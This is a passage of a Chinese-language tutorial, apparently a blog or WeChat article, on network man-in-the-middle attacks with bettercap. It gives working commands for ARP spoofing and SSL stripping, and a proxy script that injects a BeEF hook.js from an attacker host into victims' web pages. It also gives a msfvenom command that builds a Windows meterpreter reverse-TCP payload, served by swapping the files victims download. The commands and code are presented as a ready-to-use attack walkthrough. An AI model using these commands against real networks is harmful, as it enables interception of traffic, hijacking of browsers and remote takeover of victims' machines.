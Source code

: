 既然我们可以注入 js 脚本文件，那么我们就可以利用 beef 来对目标浏览器进行控制

```
set arp.spoof.targets 192.168.10.13,192.168.10.2    #设置arp欺骗的目标
set http.proxy.script  /root/test.js        #往http流量中注入脚本/root/test.js
set http.proxy.sslstrip true    #启用SSL剥离

http.proxy on   #开启HTTP代理
arp.spoof on   #开启ARP欺骗



#test.js内容
function onResponse(req,res){
    if(res.ContentType.indexOf('text/html')==0){
        var body=res.ReadBody();
        if(body.indexOf('</head>')!=-1){
            res.Body=body.replace(
                '</head>',
               '<script type="text/javascript" src="http://192.168.10.27:3000/hook.js"></script></head>'
            );
            }
        }
}
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cicIa2iaKFdSNIncOhLKkXReQC069HIib9ID66fReRobyiaZMVZrBCMdLEDnP4K5icCLvxLQSUuOia1lxg/640?wx_fmt=png)

可以看到，我们的 js 代码已经插入网页中了 

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cicIa2iaKFdSNIncOhLKkXReRyf9oYjAJ9sV73qpzdeCmZibWF7p4PCXyU3ia364ZXBiaLJZSkrYeyFpQ/640?wx_fmt=png)

那我们就可以利用 beef 对目标浏览器进行很多操作了！  

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2cicIa2iaKFdSNIncOhLKkXRe2M9JlOic2SnucwL552aia3GQPrMp6q98CGicBgP7l6ZzuuTT2qxX7dyUA/640?wx_fmt=gif)

替换下载文件  

在 bettercap 中，有一种文件后缀叫. cap，我们启动 bettercap 的时候可以指定该. cap 文件，就会按照该. cap 文件执行命令。

我们进入 bettercap 后，可以使用命令 **caplets.update** 更新. cap 文件，然后使用命令 **caplets.show** 查看. cap 文件有哪些。

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cicIa2iaKFdSNIncOhLKkXRerc1LxMjQkRhxR0gSnNYToFMmt6BLQf5FYowQibVdcR3HNFnfadpz0cA/640?wx_fmt=png)

我们这次替换下载文件，使用的是 download-autopwn.cap 文件。我们先到该文件的目录下，因为我们要欺骗的是 windows 系统的主机，所以我们先到该目录的 windows 目录下，生成一个 payload.exe 文件，然后退回到上一个目录，执行启动命令

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.10.11 lport=8888 -f exe -o payload.exe
bettercap -caplet download-autopwn.cap
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cicIa2iaKFdSNIncOhLKkXReAicVWkH1L1bJlKiauFdkRR20iaUOokN34mvNltq5dztIrVo01Icicmt4rA/640?wx_fmt=png)
